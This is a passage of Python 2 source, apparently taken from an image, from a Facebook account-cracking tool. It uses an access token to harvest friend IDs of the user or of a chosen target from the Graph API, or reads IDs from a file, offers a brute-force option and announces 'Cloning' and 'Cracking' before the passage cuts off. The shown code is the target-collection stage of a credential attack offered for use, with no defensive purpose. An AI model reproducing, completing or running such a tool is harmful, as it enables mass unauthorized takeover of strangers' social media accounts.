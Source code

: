 		jalan('\033[0;39m[•] Getting IDs \033[0;39m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
 
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[0;39m* Enter ID : ")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[0;31;39m[•] Name : "+op["name"]
		except KeyError:
			print"\033[0;39m[•] ID Not Found!"
			raw_input("\n\033[0;39m[\033[0;39mBack\033[0;39m]")
			super()
		print"\033[0;39;40m[•] Getting IDs..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="3":
		os.system('clear')
		print logo
		brute()	
	elif peak =="4":
		os.system('clear')
		print logo                  
		try:
			idlist = raw_input('\033[0;39m[+] \033[0;39mEnter the file name \033[0;39m: \033[0;39m')
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print '\x1b[0;35;39[!] \x1b[0;35;39File not found'
			raw_input('\n\x1b[0;35;39[ \x1b[0;35;39Exit \x1b[0;35;39]')
			super()
	elif peak =="0":
		menu()
	else:
		print "\033[0;39mFill in correctly"
		pilih_super()
 
	
	print "\033[0;39;40m[•] Total IDs : \033[0;97m"+str(len(id))
	jalan('\033[0;39;40m[•] Please Wait...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[0;39;40m[•] Cloning\033[0;97m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[0;39m ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~"
	print "\033[0;39m Wait Cracking Is Pending"
	print "\033[0;39m ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~"
 